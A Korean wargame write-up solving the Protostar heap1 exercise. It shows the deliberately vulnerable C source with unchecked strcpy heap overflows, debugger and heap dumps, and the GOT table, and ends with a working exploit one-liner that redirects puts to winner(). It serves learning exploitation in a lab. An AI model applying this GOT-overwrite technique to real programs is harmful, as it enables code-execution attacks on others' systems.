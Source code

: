 ```yaml
---
layout: post
title: "[exploit-exercise] Protostar heap1"
description: "Wargmae Protostar Heap1 풀이"
category: wargame
tags:  [heap]
---
```


[Protostar Heap1 - Exploit Exercises](https://exploit-exercises.com/protostar/heap1/)

>This level takes a look at code flow hijacking in data overwrite cases.
>This level is at /opt/protostar/bin/heap1

<!--more-->
 
## Source

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```


## Initial execution

```bash
$ ./heap1
Segmentation fault (core dumped)

$ ./heap1 AAAA BBBB
and that's a wrap folks!

$ ltrace ./heap1 AAAA BBBB
__libc_start_main(0x80484b9, 3, 0xffffcdd4, 0x8048580 <unfinished ...>
malloc(8)                                                                                   = 0x804a008
malloc(8)                                                                                   = 0x804a018
malloc(8)                                                                                   = 0x804a028
malloc(8)                                                                                   = 0x804a038
strcpy(0x804a018, "AAAA")                                                                   = 0x804a018
strcpy(0x804a038, "BBBB")                                                                   = 0x804a038
puts("and that's a wrap folks!"and that's a wrap folks!
)                                                            = 25
+++ exited (status 25) +++
```


## Analysis

```
i1 =       0x0804a008
i1->name = 0x0804a018

i2 =       0x0804a028
i2->name = 0x0804a038
```


```
gef➤  x/50x 0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x42424242      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000
0x804a050:      0x00000000      0x00000000      0x00000000      0x00000000
```

`pwndbg` 는 `heap` 명령어도 heap 상황을 print 해주는 명령어가 있군요.

```
pwndbg> heap
Top Chunk: 0x804a040
Last Remainder: 0

0x804a000 FASTBIN {
  prev_size = 0,
  size = 17,
  fd = 0x1,
  bk = 0x804a018,
  fd_nextsize = 0x0,
  bk_nextsize = 0x11
}
0x804a010 FASTBIN {
  prev_size = 0,
  size = 17,
  fd = 0x41414141,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x11
}
0x804a020 FASTBIN {
  prev_size = 0,
  size = 17,
  fd = 0x2,
  bk = 0x804a038,
  fd_nextsize = 0x0,
  bk_nextsize = 0x11
}
0x804a030 FASTBIN {
  prev_size = 0,
  size = 17,
  fd = 0x42424242,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x20fc1
}
0x804a040 PREV_INUSE {
  prev_size = 0,
  size = 135105,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
```

`strcpy(i2->name, argv[2]);` 수행 시에 입력 값을 `i2->name` 으로 alloc 받은 pointer 로 copy 를 하게 된다. 이 값을 `printf` 함수의 GOT 값으로 설정을 하고, 입력 값을 `winner()` 함수 주소로 넣어준다면 `printf()` 함수 수행 시에 `winner()` 함수가 수행될 것이다. 


#### `printf` 의 GOT 주소 확인 : `0x08049774`

Exploit 할 마지막 `printf` 포함된 assem code 를 보면 아래와 같이 `puts` 로 대치되어 있다. argument 별로 없는 짧은 경우 `printf` 가 `puts` 로 compile 된다고 들은 것 같다.

```
   0x08048552 <+153>:   mov    DWORD PTR [esp],eax
   0x08048555 <+156>:   call   0x804838c <strcpy@plt>
   0x0804855a <+161>:   mov    DWORD PTR [esp],0x804864b
   0x08048561 <+168>:   call   0x80483cc <puts@plt>
   0x08048566 <+173>:   leave
   0x08048567 <+174>:   ret
```



```
pwndbg> got
[*] '/media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/wargame/protostar/heap/heap1/heap1'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

GOT protection: No RELRO | GOT functions: 7

[0804975c] __gmon_start__ -> 0x8048372 (__gmon_start__@plt+6) ◂— push   0 /* 'h' */
[08049760] __libc_start_main@GLIBC_2.0 -> 0x8048382 (__libc_start_main@plt+6) ◂— push   8
[08049764] strcpy@GLIBC_2.0 -> 0x8048392 (strcpy@plt+6) ◂— push   0x10
[08049768] printf@GLIBC_2.0 -> 0x80483a2 (printf@plt+6) ◂— push   0x18
[0804976c] time@GLIBC_2.0 -> 0x80483b2 (time@plt+6) ◂— push   0x20 /* 'h ' */
[08049770] malloc@GLIBC_2.0 -> 0x80483c2 (malloc@plt+6) ◂— push   0x28 /* 'h(' */
[08049774] puts@GLIBC_2.0 -> 0x80483d2 (puts@plt+6) ◂— push   0x30 /* 'h0' */
```


#### `winner()` 함수 주소 확인 : `0x8048494`

```
pwndbg> p winner
$1 = {void (void)} 0x8048494 <winner>
```



## Exploit

```bash
$ ./heap1 $(python -c 'print "AAAA" * 5 + "\x74\x97\x04\x08"') $(python -c 'print "\x94\x84\x04\x08"')
and we have a winner @ 1497206645
```


